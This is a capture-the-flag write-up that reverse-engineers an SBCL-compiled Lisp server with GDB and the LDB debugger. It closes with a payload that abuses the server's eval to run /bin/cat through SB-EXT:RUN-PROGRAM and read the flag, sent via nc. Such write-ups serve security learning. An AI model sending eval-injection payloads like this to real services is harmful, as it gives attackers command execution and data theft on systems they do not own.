


This task is a lot easier if you programmed in Lisp (preferably Common Lisp) before.

We start with a binary named `server` and a TCP address. 

Nothing extraordinary here:
```
~/list_processor $ file ./server 
./server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a9399c2b88a2655f9ad07511e3a909ae2a1d992e, stripped
```

Start with running the binary:
```
~/list_processor $ ./server
Welcome at our server :3
```
The binary waits for input. Input something to get
```
~/list_processor $ ./server
Welcome at our server :3
a
We caught a condition: The value
                         A
                       is not of type
                         LIST
```
Run app once again and hit Ctrl+c:
```
~/list_processor $ ./server
Welcome at our server :3
^CUnhandled SB-SYS:INTERACTIVE-INTERRUPT in thread #<SB-THREAD:THREAD "main thread" RUNNING
                                                    {10005F05B3}>:
  Interactive interrupt at #x7FFFF7D3DA37.

Backtrace for: #<SB-THREAD:THREAD "main thread" RUNNING {10005F05B3}>
0: ("bogus stack frame")
1: (SB-SYS:WAIT-UNTIL-FD-USABLE 0 :INPUT NIL T)
2: (SB-IMPL::REFILL-INPUT-BUFFER #<SB-SYS:FD-STREAM for "standard input" {1001B78593}>)
3: (SB-IMPL::INPUT-CHAR/UTF-8 #<SB-SYS:FD-STREAM for "standard input" {1001B78593}> T 0)
4: ((LAMBDA (&REST REST) :IN SB-IMPL::GET-EXTERNAL-FORMAT) #<SB-SYS:FD-STREAM for "standard input" {1001B78593}> T 0)
5: (READ-CHAR #<SB-SYS:FD-STREAM for "standard input" {1001B78593}> T 0 #<unused argument>)
6: (READ-CHAR #<SYNONYM-STREAM :SYMBOL SB-SYS:*STDIN* {10000257F3}> T 0 #<unused argument>)
7: (SB-IMPL::%READ-PRESERVING-WHITESPACE #<SYNONYM-STREAM :SYMBOL SB-SYS:*STDIN* {10000257F3}> T (NIL) T)
8: (SB-IMPL::%READ-PRESERVING-WHITESPACE #<SYNONYM-STREAM :SYMBOL SB-SYS:*STDIN* {10000257F3}> T (NIL) NIL)
9: (READ #<SYNONYM-STREAM :SYMBOL SB-SYS:*STDIN* {10000257F3}> T NIL NIL)
10: (HANDLE-COMMAND)
11: (HANDLE-CLIENT)
12: ((FLET SB-UNIX::BODY :IN SAVE-LISP-AND-DIE))
13: ((FLET "WITHOUT-INTERRUPTS-BODY-36" :IN SAVE-LISP-AND-DIE))
14: ((LABELS SB-IMPL::RESTART-LISP :IN SAVE-LISP-AND-DIE))

unhandled condition in --disable-debugger mode, quitting
```
This is a SBCL-compiled binary, with disabled debugger. Try to input a LISP list then (`(1 2)`), but the server does not respond.

Load the binary to GDB. SBCL does strange thing with signals, so we set
```
handle SIGUSR1 pass
handle SIGSEGV pass
handle SIGILL pass
```

This is when lisp knowledge comes in handy. Apart from the hight level debugger, there is a low level one. To get to know how can we trigger it, read through file `src/code/debug.lisp` (contains well meaning string `defun disable-debugger`) to see the line
```
  (sb-alien:alien-funcall (sb-alien:extern-alien "enable_lossage_handler"
                                                 (function sb-alien:void))))
```
which leads to funcion `void ldb_monitor()`.
Suret enough, when we call it in GDB, we are greeted with friendly message:
```
pwndbg> ldb
Welcome to LDB, a low-level debugger for the Lisp runtime environment.
ldb> help
help	Display this help information.
?	(an alias for help)
backtrace	Backtrace up to N frames.
catchers	Print a list of all the active catchers.
context	Print interrupt context number I.
dump	Dump memory starting at ADDRESS for COUNT words.
d	(an alias for dump)
exit	Exit this instance of the monitor.
flush	Flush all temp variables.
grab-signals	Set the signal handlers to call LDB.
kill	Kill ourself with signal number N (useful if running under gdb)
purify	Purify. (Caveat purifier!)
print	Print object at ADDRESS.
p	(an alias for print)
quit	Quit.
regs	Display current Lisp registers.
search	Search for TYPE starting at ADDRESS for a max of COUNT words.
s	(an alias for search)
```
Most importantly, there's function `print`, which lets us print expressions by their address (when provided a number, be it either hex or decimal), or by their name. To simplify process, let's define GDB function
```
define ldb
    call (void)ldb_monitor()
end
```
Let's look once again on the printed backtrace. Everything except for `HANDLE-COMMAND` and `HANDLE-CLIENT` comes from SBCL. After breaking on `write` (that's how the welcome message is printed), let's inspect `HANDLE-COMMAND` (because it's probably more interesting, as it interacts directly with data `(READ)`) and dig around a bit:
```
ldb> p HANDLE-COMMAND
$23=	  0x1000552adf: other pointer
	    header: 0x00000545: symbol
	    value: 0x00000051: <unbound marker>
	    hash: 0xc6c2934a4bc276e: 447567866009359287
$24=	    info: 0x100073666f: #<ptr to simple vector>
$25=	    name: 0x10006a0ecf: "HANDLE-COMMAND"
$7=	    package: 0x20301103: #<ptr to 20300203 PACKAGE instance>
$26=	    fun: 0x100055cedb: #<ptr to simple fun>
ldb> p 0x100055cedb 
$26=	  0x100055cedb: fun pointer
	    header: 0x2030008300000a31: simple fun
$27=	    code: 0x100055ce8f: #<ptr to code header>
	    self: 0x100055cf00: 34362550144
$23=	    name: 0x1000552adf: HANDLE-COMMAND
$nil=	    arglist: 0x20100017: NIL
$28=	    type: 0x1001380197: ($29=SFUNCTION $nil $30=NULL)
$31=	    info: 0x10013801cf: #<ptr to simple vector>
```
Few things to note here

 - SBCL uses tagged pointers (3 LSBs). All symbols will have 0b111 tag.
 - `self` for a code pointer is the executable code of the function.

I dumped memory map containing `0x100055cf00`, loaded it up in Binary Ninja, and disassenbled it.
The exact nature of the functions, I determined by putting a breakpoint in GDB there and comparing with the output from `ldb`. Here's disassembly with added comments:
```
100055cf00  8f4508             pop     qword [rbp+0x8 {__return_addr}]
100055cf03  4885c9             test    rcx, rcx
100055cf06  0f85ff000000       jne     0x100055d00b

100055cf0c  488d65f0           lea     rsp, [rbp-0x10]
100055cf10  498b4c2458         mov     rcx, qword [r12+0x58]
100055cf15  48894df8           mov     qword [rbp-0x8], rcx
100055cf19  4883ec10           sub     rsp, 0x10
100055cf1d  31c9               xor     ecx, ecx  {0x0}
100055cf1f  48892c24           mov     qword [rsp], rbp
100055cf23  488bec             mov     rbp, rsp
                               // read function
100055cf26  b8588b3120         mov     eax, 0x20318b58
100055cf2b  ffd0               call    rax  {0x20318b58}
                               // rdx has list from the input
100055cf2d  8d42f9             lea     eax, [rdx-0x7]
100055cf30  a80f               test    al, 0xf
100055cf32  0f85d0000000       jne     0x100055d008

                               // rcx holds first element in input list
100055cf38  488b4af9           mov     rcx, qword [rdx-0x7]
                               // 0x20100017 is NIL
100055cf3c  4881f917001020     cmp     rcx, 0x20100017
100055cf43  7415               je      0x100055cf5a

100055cf45  8d41f1             lea     eax, [rcx-0xf]
100055cf48  a80f               test    al, 0xf
100055cf4a  0f85b5000000       jne     0x100055d005

                               // 0x45 is a SYMBOL
100055cf50  8079f145           cmp     byte [rcx-0xf], 0x45
100055cf54  0f85ab000000       jne     0x100055d005

100055cf5a  488b4119           mov     rax, qword [rcx+0x19]  // offset 0x19 (from -0xf) means PACKAGE
                               // this is [rel data_100055cea8]
                               // ldb> p 0x10005524df
                               // $8=	  0x10005524df: other pointer
                               // 	    header: 0x00000545: symbol
                               // 	    value: 0x00000051: <unbound marker>
                               // 	    hash: 0x37242e29f7fd5190: 1986675764518365384
                               // $9=	    info: 0x100073652f: #<ptr to simple vector>
                               // $10=	    name: 0x10005bc08f: "STORE"
                               // $11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
                               // $12=	    fun: 0x100055ab3b: #<ptr to simple fun>
100055cf5e  488b0d43ffffff     mov     rcx, qword [rel data_100055cea8]
                               // this is the package
                               // ldb> p 0x1000237be3 
                               // $11=	  0x1000237be3: instance pointer
                               // $13=	    type: 0x20300203: #<ptr to 20300183 LAYOUT instance>
                               // $14=	    slot 0: 0x100054fecf: "RULES"
                               // $nil=	    slot 1: 0x20100017: NIL
                               // $15=	    slot 2: 0x1000552c27: ($16=#<ptr to 20300203 PACKAGE instance>)
                               // $17=	    slot 3: 0x1000552c3f: #<ptr to simple vector>
                               // 	    slot 4: 0x00000000: 0
100055cf5e  488b0d43ffffff     mov     rcx, qword [rel data_100055cea8]
                               // this is the package
                               // ldb> p 0x1000237be3 
                               // $11=	  0x1000237be3: instance pointer
                               // $13=	    type: 0x20300203: #<ptr to 20300183 LAYOUT instance>
                               // $14=	    slot 0: 0x100054fecf: "RULES"
                               // $nil=	    slot 1: 0x20100017: NIL
                               // $15=	    slot 2: 0x1000552c27: ($16=#<ptr to 20300203 PACKAGE instance>)
                               // $17=	    slot 3: 0x1000552c3f: #<ptr to simple vector>
                               // 	    slot 4: 0x00000000: 0
                               // $nil=	    slot 5: 0x20100017: NIL
                               // $18=	    slot 6: 0x1000552c53: #<ptr to 2030d503 PACKAGE-HASHTABLE instance>
                               // $19=	    slot 7: 0x1000552c83: #<ptr to 2030d503 PACKAGE-HASHTABLE instance>
                               // $nil=	    slot 8: 0x20100017: NIL
                               // $nil=	    slot 9: 0x20100017: NIL
                               // $nil=	    slot 10: 0x20100017: NIL
                               // $20=	    slot 11: 0x1000552cb7: ($11)
                               // $21=	    slot 12: 0x1000552cc3: #<ptr to 20300803 DEFINITION-SOURCE-LOCATION instance>
                               // $nil=	    slot 13: 0x20100017: NIL
                               // $nil=	    slot 14: 0x20100017: NIL
100055cf65  488b4919           mov     rcx, qword [rcx+0x19]  {0x10005524f8}
100055cf69  4839c1             cmp     rcx, rax
100055cf6c  0f858c000000       jne     0x100055cffe

                               // ldb> p HANDLE-COMMAND
                               // $23=	  0x1000552adf: other pointer
                               // 	    header: 0x00000545: symbol
                               // 	    value: 0x00000051: <unbound marker>
                               // 	    hash: 0xc6c2934a4bc276e: 447567866009359287
                               // $24=	    info: 0x100073666f: #<ptr to simple vector>
                               // $25=	    name: 0x10006a0ecf: "HANDLE-COMMAND"
                               // $7=	    package: 0x20301103: #<ptr to 20300203 PACKAGE instance>
                               // $26=	    fun: 0x100055cedb: #<ptr to simple fun>
                               // ldb> p 0x100055cedb 
                               // $26=	  0x100055cedb: fun pointer
                               // 	    header: 0x2030008300000a31: simple fun
                               // $27=	    code: 0x100055ce8f: #<ptr to code header>
                               // 	    self: 0x100055cf00: 34362550144
                               // $23=	    name: 0x1000552adf: HANDLE-COMMAND
                               // $nil=	    arglist: 0x20100017: NIL
                               // $28=	    type: 0x1001380197: ($29=SFUNCTION $nil $30=NULL)
                               // $31=	    info: 0x10013801cf: #<ptr to simple vector>
                               // ldb> p 0x100055ce8f 
                               // $27=	  0x100055ce8f: other pointer
                               // 	    header: 0x100000a2d: code header
                               // $26=	    f[0]: 0x100055cedb: #<ptr to simple fun>
                               // 	    code_size: 0x0000027a: 317
                               // $67=	    debug_info: 0x1001380153: #<ptr to 20300703 COMPILED-DEBUG-INFO instance>
                               // 	    fixups: 0x3c3e5ab8ae: 129372085335
                               // $68=	    ???: 0x20318b4f: #<ptr to fdefn for READ>
                               // $67=	    debug_info: 0x1001380153: #<ptr to 20300703 COMPILED-DEBUG-INFO instance>
                               // 	    fixups: 0x3c3e5ab8ae: 129372085335
                               // $68=	    ???: 0x20318b4f: #<ptr to fdefn for READ>
                               // $8=	    ???: 0x10005524df: STORE
                               // $69=	    ???: 0x203210cf: #<ptr to fdefn for EVAL>
                               // $70=	    ???: 0x204b85df: *STANDARD-OUTPUT*
                               // $71=	    ???: 0x2031a5cf: #<ptr to fdefn for PRIN1>
                               // $72=	    ???: 0x2032128f: #<ptr to fdefn for TERPRI>
                               // 
                               // addresses of EVAL, PRIN1, TERPRI almost match (idk why just almost)
100055cf72  4883ec10           sub     rsp, 0x10
100055cf76  b902000000         mov     ecx, 0x2
100055cf7b  48892c24           mov     qword [rsp], rbp
100055cf7f  488bec             mov     rbp, rsp
100055cf82  b8d8103220         mov     eax, 0x203210d8
                               // eval
100055cf87  ffd0               call    rax  {0x203210d8}
100055cf89  480f42e3           cmovb   rsp, rbx
                               // NIL
100055cf8d  4881fa17001020     cmp     rdx, 0x20100017
                               // T
100055cf94  b94f001020         mov     ecx, 0x2010004f
100055cf99  480f44ca           cmove   rcx, rdx
100055cf9d  488bd1             mov     rdx, rcx
100055cfa0  498b8c2430220000   mov     rcx, qword [r12+0x2230]
100055cfa8  83f961             cmp     ecx, 0x61
100055cfab  480f440c25d8854b…cmove   rcx, qword [0x204b85d8]
100055cfb4  488bf1             mov     rsi, rcx
100055cfb7  488975f0           mov     qword [rbp-0x10], rsi
100055cfbb  4883ec10           sub     rsp, 0x10
100055cfbf  488bfe             mov     rdi, rsi
100055cfc2  b904000000         mov     ecx, 0x4
100055cfc7  48892c24           mov     qword [rsp], rbp
100055cfcb  488bec             mov     rbp, rsp
100055cfce  b8d8a53120         mov     eax, 0x2031a5d8
                               // print
100055cfd3  ffd0               call    rax  {0x2031a5d8}
100055cfd5  488b75f0           mov     rsi, qword [rbp-0x10]
100055cfd9  4883ec10           sub     rsp, 0x10
100055cfdd  488bd6             mov     rdx, rsi
100055cfe0  b902000000         mov     ecx, 0x2
100055cfe5  48892c24           mov     qword [rsp], rbp
100055cfe9  488bec             mov     rbp, rsp
100055cfec  b898123220         mov     eax, 0x20321298
100055cff1  ffd0               call    rax  {0x20321298}
100055cff3  ba17001020         mov     edx, 0x20100017

100055cff8  488be5             mov     rsp, rbp
100055cffb  f8                 clc     
100055cffc  5d                 pop     rbp
100055cffd  c3                 retn    

100055cffe  ba17001020         mov     edx, 0x20100017
100055d003  ebf3               jmp     0x100055cff8

100055d005  cc                 int3    
{ Does not return }
```
And there's generated graph: 



In the line
```
100055cf65  488b4919           mov     rcx, qword [rcx+0x19]  {0x10005524f8}
``
this evaluates to the package of function `STORE`, which is the package `RULES`.

This basically means, that we need to provide a list, so that its first element is a member of package `RULES`. This list will be later evaluated as a Lisp expression (this is what read does - it reads a lisp expression).

Let's look at the available symbols in the package `RULES`:
```
ldb> p 0x10005524df
$8=	  0x10005524df: other pointer
	    header: 0x00000545: symbol
	    value: 0x00000051: <unbound marker>
	    hash: 0x37242e29f7fd5190: 1986675764518365384
$9=	    info: 0x100073652f: #<ptr to simple vector>
$10=	    name: 0x10005bc08f: "STORE"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
$12=	    fun: 0x100055ab3b: #<ptr to simple fun>
ldb> p 0x1000237be3 
$11=	  0x1000237be3: instance pointer
$13=	    type: 0x20300203: #<ptr to 20300183 LAYOUT instance>
$14=	    slot 0: 0x100054fecf: "RULES"
$nil=	    slot 1: 0x20100017: NIL
$15=	    slot 2: 0x1000552c27: ($16=#<ptr to 20300203 PACKAGE instance>)
$17=	    slot 3: 0x1000552c3f: #<ptr to simple vector>
	    slot 4: 0x00000000: 0
$nil=	    slot 5: 0x20100017: NIL
$18=	    slot 6: 0x1000552c53: #<ptr to 2030d503 PACKAGE-HASHTABLE instance>
$19=	    slot 7: 0x1000552c83: #<ptr to 2030d503 PACKAGE-HASHTABLE instance>
$nil=	    slot 8: 0x20100017: NIL
$nil=	    slot 9: 0x20100017: NIL
$nil=	    slot 10: 0x20100017: NIL
$20=	    slot 11: 0x1000552cb7: ($11)
$21=	    slot 12: 0x1000552cc3: #<ptr to 20300803 DEFINITION-SOURCE-LOCATION instance>
$nil=	    slot 13: 0x20100017: NIL
$nil=	    slot 14: 0x20100017: NIL
```
Slot 6 holds all symbols (with the internal ones), while slot 7 has the external ones. To verify the assumption, let's run the program (`ASSERTION-LIST` is in the slot 6, `EXTRACT` in the slot 7):
```
Welcome at our server :3
(RULES:ASSERTION-LIST 4 5)
We caught a condition: The symbol "ASSERTION-LIST" is not external in the RULES package.

                         Stream: #<SYNONYM-STREAM :SYMBOL SB-SYS:*STDIN* {10000257F3}>
```
```
Welcome at our server :3
(RULES:EXTRACT )
We caught a condition: invalid number of arguments: 0
```
Success!
Let's see what symbols are there:
```
ldb> p 0x1000552c83 
$19=	  0x1000552c83: instance pointer
$98=	    type: 0x2030d503: #<ptr to 20300183 LAYOUT instance>
$100=	    slot 0: 0x1000736baf: #<ptr to simple vector>
	    slot 1: 0x00000018: 12
	    slot 2: 0x00000008: 4
	    slot 3: 0x00000000: 0
ldb> p 0x1000736baf 
$100=	  0x1000736baf: other pointer
	    header: 0x000000d9: simple vector
	  length = 17
	    0: 0x00000000: 0
$8=	    1: 0x10005524df: STORE
$112=	    2: 0x1000914e6f: DEFRULE
$113=	    3: 0x1000914e9f: SAVE-DATABASE
	    4: 0x00000000: 0
	    5: 0x00000000: 0
	    6: 0x00000000: 0
	    7: 0x00000000: 0
$114=	    8: 0x1000914ecf: =>
	    9: 0x00000000: 0
	    10: 0x00000000: 0
$115=	    11: 0x1000914eff: EXTRACT
	    12: 0x00000000: 0
$116=	    13: 0x1000914f2f: FETCH
$117=	    14: 0x1000914f5f: LOAD-DATABASE
	    15: 0x00000000: 0
$118=	    16: 0x1000914f8f: FETCH-BINDINGS
```
There's a function `SAVE-DATABASE`, which seems promising. Let's see the arguments:
```
ldb> p SAVE-DATABASE
$113=	  0x1000914e9f: other pointer
	    header: 0x00000545: symbol
	    value: 0x00000051: <unbound marker>
	    hash: 0x3a2a7b2f9b8e7eea: 2095648923812577141
$119=	    info: 0x1000a5364f: #<ptr to simple vector>
$120=	    name: 0x1000a5898f: "SAVE-DATABASE"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
$121=	    fun: 0x100055b5db: #<ptr to simple fun>
ldb> p 0x100055b5db
$121=	  0x100055b5db: fun pointer
	    header: 0x2030008300001031: simple fun
$124=	    code: 0x100055b55f: #<ptr to code header>
	    self: 0x100055b600: 34362546944
$113=	    name: 0x1000914e9f: SAVE-DATABASE
$125=	    arglist: 0x1001377717: ($126=FILENAME)
$127=	    type: 0x1001377727: ($43=FUNCTION $128=($t=T) $45=*)
$129=	    info: 0x100137775f: #<ptr to simple vector>
```
So it just takes a `FILENAME` argument.

To make sure that it's the database that holds the flag, we inspect further:
```
ldb> p SAVE-DATABASE 
$113=	  0x1000914e9f: other pointer
	    header: 0x00000545: symbol
	    value: 0x00000051: <unbound marker>
	    hash: 0x3a2a7b2f9b8e7eea: 2095648923812577141
$119=	    info: 0x1000a5364f: #<ptr to simple vector>
$120=	    name: 0x1000a5898f: "SAVE-DATABASE"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
$121=	    fun: 0x100055b5db: #<ptr to simple fun>
ldb> p 0x100055b5db 
$121=	  0x100055b5db: fun pointer
	    header: 0x2030008300001031: simple fun
$124=	    code: 0x100055b55f: #<ptr to code header>
	    self: 0x100055b600: 34362546944
$113=	    name: 0x1000914e9f: SAVE-DATABASE
$125=	    arglist: 0x1001377717: ($126=FILENAME)
$127=	    type: 0x1001377727: ($43=FUNCTION $128=($t=T) $45=*)
$129=	    info: 0x100137775f: #<ptr to simple vector>
ldb> p 0x100055b55f 
$124=	  0x100055b55f: other pointer
	    header: 0x10000200000e2d: code header
$121=	    f[0]: 0x100055b5db: #<ptr to simple fun>
$130=	    f[1]: 0x100055b84b: #<ptr to simple fun>
	    code_size: 0x00000694: 842
$131=	    debug_info: 0x10013776d3: #<ptr to 20300703 COMPILED-DEBUG-INFO instance>
$132=	    fixups: 0x1001379ebf: #<ptr to bignum>
$133=	    ???: 0x203b372f: DIRECTION
$134=	    ???: 0x203b299f: OUTPUT
$135=	    ???: 0x203b3edf: IF-EXISTS
$136=	    ???: 0x203b3e7f: SUPERSEDE
$137=	    ???: 0x2031990f: #<ptr to fdefn for OPEN>
$138=	    ???: 0x20331a6f: #<ptr to fdefn for %WITH-STANDARD-IO-SYNTAX>
$139=	    ???: 0x204c163f: *DATABASE*
$140=	    ???: 0x20363e8f: #<ptr to fdefn for PRINT>
$141=	    ???: 0x203a9a8f: ABORT
$142=	    ???: 0x203199af: #<ptr to fdefn for CLOSE>
ldb> p 0x204c163f 
$139=	  0x204c163f: other pointer
	    header: 0x06000545: symbol
$143=	    value: 0x1000df96a7: ($144=($145=($146=FLAG $147=CHCTF $148=(    ...))) $149=#<ptr to 20300c83 HASH-TABLE instance>)
	    hash: 0x149d4ce358cd1b0a: 742713995716627845
$150=	    info: 0x1000df96cf: #<ptr to simple vector>
$151=	    name: 0x1000df3adf: "*DATABASE*"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
```
Indeed, a flag is present here:
```
ldb> p 0x204c163f 
$139=	  0x204c163f: other pointer
	    header: 0x06000545: symbol
$143=	    value: 0x1000df96a7: ($144=($145=($146=FLAG $147=CHCTF $148=(    ...))) $149=#<ptr to 20300c83 HASH-TABLE instance>)
	    hash: 0x149d4ce358cd1b0a: 742713995716627845
$150=	    info: 0x1000df96cf: #<ptr to simple vector>
$151=	    name: 0x1000df3adf: "*DATABASE*"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
ldb> p 0x1000df96a7 
$143=	  0x1000df96a7: list pointer
$144=	    car: 0x1001253c57: ($145=($146=FLAG $147=CHCTF $148=(#\t #\e #\s #\t ...)))
$152=	    cdr: 0x1000df96b7: ($149=#<ptr to 20300c83 HASH-TABLE instance>)
ldb> p 0x1001253c57 
$144=	  0x1001253c57: list pointer
$145=	    car: 0x10015da2c7: ($146=FLAG $147=CHCTF $148=(#\t #\e #\s #\t ...))
$nil=	    cdr: 0x20100017: NIL
ldb> p 0x10015da2c7 
$145=	  0x10015da2c7: list pointer
$146=	    car: 0x1000552a4f: FLAG
$153=	    cdr: 0x10015da2d7: ($147=CHCTF $148=(#\t #\e #\s #\t ...))
ldb> p 0x10015da2d7 
$153=	  0x10015da2d7: list pointer
$147=	    car: 0x1000552bcf: CHCTF
$154=	    cdr: 0x10015da2e7: ($148=(#\t #\e #\s #\t ...))
```
It is however a test flag. To get the real flag, we need to run some code on the server.

Now, as it's just an eval, we may first save the database, and read the file from disk to the stdout, thus getting the flag. We can achieve the second by providing it as a second argument to the next `SAVE-DATABASE` call - this will produce a runtime error, but the flag will be already printed out.
Example payload:
```
(RULES:SAVE-DATABASE "/tmp/lol") (RULES:SAVE-DATABASE (SB-EXT:RUN-PROGRAM "/bin/cat" (list "/tmp/lol") :output *standard-output*))
```


We try it with
```
~/list_processor $ echo '(RULES:SAVE-DATABASE "/tmp/lol") (RULES:SAVE-DATABASE (SB-EXT:RUN-PROGRAM "/bin/cat" (list "/tmp/lol") :output *standard-output*))' | nc list-processor.chujowyc.tf 4002
                   
Welcome at our server :3
T

(((FLAG CHCTF (#\LATIN_CAPITAL_LETTER_I #\LOW_LINE #\LATIN_SMALL_LETTER_J #\LATIN_SMALL_LETTER_U #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\LOW_LINE #\LATIN_SMALL_LETTER_R #\LATIN_SMALL_LETTER_O #\LATIN_SMALL_LETTER_B #\LATIN_SMALL_LETTER_B #\DIGIT_THREE #\LATIN_SMALL_LETTER_D #\LOW_LINE #\LATIN_SMALL_LETTER_A #\LOW_LINE #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\DIGIT_THREE #\DIGIT_THREE #\DIGIT_SEVEN #\LOW_LINE #\LATIN_SMALL_LETTER_B #\DIGIT_FOUR #\LATIN_SMALL_LETTER_N #\LATIN_SMALL_LETTER_K #\LOW_LINE #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_FIVE #\DIGIT_THREE #\DIGIT_FOUR #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT))) #.(SB-IMPL::%STUFF-HASH-TABLE (MAKE-HASH-TABLE :TEST (QUOTE EQL) :SIZE (QUOTE 16) :REHASH-SIZE (QUOTE 1.5) :REHASH-THRESHOLD (QUOTE 1.0) :WEAKNESS (QUOTE NIL)) (QUOTE ((FLAG (FLAG CHCTF (#\LATIN_CAPITAL_LETTER_I #\LOW_LINE #\LATIN_SMALL_LETTER_J #\LATIN_SMALL_LETTER_U #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\LOW_LINE #\LATIN_SMALL_LETTER_R #\LATIN_SMALL_LETTER_O #\LATIN_SMALL_LETTER_B #\LATIN_SMALL_LETTER_B #\DIGIT_THREE #\LATIN_SMALL_LETTER_D #\LOW_LINE #\LATIN_SMALL_LETTER_A #\LOW_LINE #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\DIGIT_THREE #\DIGIT_THREE #\DIGIT_SEVEN #\LOW_LINE #\LATIN_SMALL_LETTER_B #\DIGIT_FOUR #\LATIN_SMALL_LETTER_N #\LATIN_SMALL_LETTER_K #\LOW_LINE #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_FIVE #\DIGIT_THREE #\DIGIT_FOUR #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT))))))) We caught a condition: The value
                         #<SB-IMPL::PROCESS :EXITED 0>
                       is not of type
                         (OR (VECTOR CHARACTER) (VECTOR NIL) BASE-STRING
                             PATHNAME STREAM)

                       when binding SB-KERNEL:FILENAME
```
Just need to decode the output.


If we wanted to make something more aligned with the expectations of the task, we could look into function `FETCH`:

```
ldb> p 0x1000736baf 
$100=	  0x1000736baf: other pointer
	    header: 0x000000d9: simple vector
	  length = 17
	    0: 0x00000000: 0
$8=	    1: 0x10005524df: STORE
$112=	    2: 0x1000914e6f: DEFRULE
$113=	    3: 0x1000914e9f: SAVE-DATABASE
	    4: 0x00000000: 0
	    5: 0x00000000: 0
	    6: 0x00000000: 0
	    7: 0x00000000: 0
$114=	    8: 0x1000914ecf: =>
	    9: 0x00000000: 0
	    10: 0x00000000: 0
$115=	    11: 0x1000914eff: EXTRACT
